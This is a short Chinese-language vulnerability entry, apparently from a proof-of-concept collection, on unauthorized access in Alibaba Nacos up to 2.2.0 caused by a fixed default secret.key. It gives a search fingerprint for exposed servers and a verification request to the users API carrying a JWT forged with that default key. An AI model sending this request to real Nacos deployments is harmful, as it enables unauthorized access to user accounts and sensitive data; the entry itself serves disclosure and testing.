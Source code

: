 # Alibaba Nacos secret.key默认密钥 未授权访问漏洞

## 漏洞描述

Alibaba Nacos 使用了固定的secret.key默认密钥，导致攻击者可以构造请求获取敏感信息，导致未授权访问漏洞

## 漏洞影响

<a-checkbox checked>Alibaba Nacos <= 2.2.0 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="NACOS" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1679978968874-19b918f8-6501-448d-b9c2-9bbdb48b43b7-20230328130353821.png)

漏洞原因是由于使用了固定的Key

![img](../../../.vuepress/public/img/1679978948082-1c2e3bc7-a2c2-4d57-b853-53917fe60b41.png)

验证POC

```javascript
/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9
```

![img](../../../.vuepress/public/img/1679979057091-8b419866-b16b-4bf4-b8a0-45a7b549adc8.png)